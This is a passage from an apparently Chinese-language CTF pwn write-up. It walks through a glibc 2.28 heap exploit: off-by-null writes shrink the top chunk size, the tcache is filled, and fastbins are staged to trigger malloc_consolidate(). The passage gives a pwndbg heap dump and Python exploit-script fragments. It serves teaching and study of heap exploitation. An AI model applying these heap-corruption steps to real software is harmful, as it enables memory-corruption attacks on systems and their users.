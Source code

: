 实际效果如下，可以看到0x40,0x50,0x60的tcache被我填满，同时在edit的时候利用off_by_null 来改小top_chunk_size，最终top_chunk被我们改写成0x900。

```
libc_version:2.28
arch:64
tcache_enable:True
libc_base:0x7f868d9b0000
heap_base:0x55f7c7017000



(0x40)    entries[2] -&gt; 0x55f7c70368c0 -&gt; 0x55f7c7036880 -&gt; 0x55f7c7036840 -&gt; 0x55f7c7036800 -&gt; 0x55f7c70367c0 -&gt; 0x55f7c7036780 -&gt; 0x55f7c7036740 
(0x50)    entries[3] -&gt; 0x55f7c70366f0 -&gt; 0x55f7c70366a0 -&gt; 0x55f7c7036650 -&gt; 0x55f7c7036600 -&gt; 0x55f7c70365b0 -&gt; 0x55f7c7036560 -&gt; 0x55f7c7036510 
(0x60)    entries[4] -&gt; 0x55f7c70364b0 -&gt; 0x55f7c7036450 -&gt; 0x55f7c70363f0 -&gt; 0x55f7c7036390 -&gt; 0x55f7c7036330 -&gt; 0x55f7c70362d0 -&gt; 0x55f7c7036270 
top: 0x55f7c70368f0
last_remainder: 0x0
unsortedbins: None

pwndbg&gt; x/20xg 0x55f7c70368f0
0x55f7c70368f0:    0x6161616161616161    0x0000000000000900 --- top_chunk size
0x55f7c7036900:    0x0000000000000000    0x0000000000000000
0x55f7c7036910:    0x0000000000000000    0x0000000000000000
0x55f7c7036920:    0x0000000000000000    0x0000000000000000
0x55f7c7036930:    0x0000000000000000    0x0000000000000000
0x55f7c7036940:    0x0000000000000000    0x0000000000000000
```

向fastbin中放置chunk , 为malloc_consolidate()触发时合并fastbin所用,并且进一步通过off_by_null减小topchunk_size，使得top_chunk_size足够小，满足触发malloc_consolidate()的条件。

```
#because  the 0x60 size tcache is full , I can prepare some 0x60 fastbins.
for i in range(8):
    add(0x58)
for i in range(1,7):
    delete(i)  # remain chunk_0 chunk_7
#use chunk_0 to make fastbin attack.
#use chunk_7 to forward merge. 
#now the top_chunk size is  0x601

#shrink the top_chunk size
for i in range(5):
    add(0x28)
    edit(i+1,0x28,'a'*0x28)
for i in range(5):
    delete(i+1)
add(0x38) # idx 1
add(0x28) # idx 2
add(0x28) # idx 3
add(0x28) # idx 4
# now the top_chunk size = 0x31
```
